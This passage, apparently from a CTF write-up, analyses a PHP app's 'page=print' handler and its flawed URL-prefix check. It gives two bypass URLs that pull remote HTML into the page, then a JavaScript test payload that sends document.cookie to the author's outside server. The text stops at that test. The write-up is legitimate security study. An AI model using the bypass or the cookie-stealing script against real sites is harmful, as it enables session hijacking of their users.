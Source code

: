 Only URLs which match some hardcoded host are shown (and therefore visited). So the bot never got to see our submitted URLs. Let's see how we can bypass this check.

But first for something different ...

### Include from arbitrary URL

There is this rather strange handling of the `page=print` case in the `index.php`:


```php
<?php
[...]
    case 'print':
        $url   = base64_decode($_REQUEST['url']);
        $title = '';
        if(begins_with($url, $config['url'])) {
            $content = getContentFromUrl($url);
        }

        if(isset($_REQUEST['load_template']) && ($_REQUEST['load_template'] == '1' || $_REQUEST['load_template'] == true)) {
            $content = only_body($content);
        }
    break;
[...]
?>
```

This code will download and include anything that comes from a url provided via (base64 encoded) get parameter. Unfortunately there is a check that requires the provided URL to begin with a certain string. By playing around a little bit, we can deduce that the provided URL must begin with the webapp's host/ip, therefore `http://10.13.37.13`.

Interestingly here we can see that the URL doesn't end in a `/`, or someting like that, so we can bypass the check using either of two different methods:

```
http://10.13.37.13@example.com/
http://10.13.37.13.example.com/
```

Both start with the correct string, but point to totally different domains.
That way we can get the server to include arbitrary HTML content from a remote location. This starts to be interesting. :)

### First XSS tests

So we uploaded a quick test file to a webserver of our own:

```html
<script>
document.write("<img src=\"http://f0rki.at/xss/" + document.cookie + "\" />");
</script>
```

Using this simple script we checked whether the content was actually included:
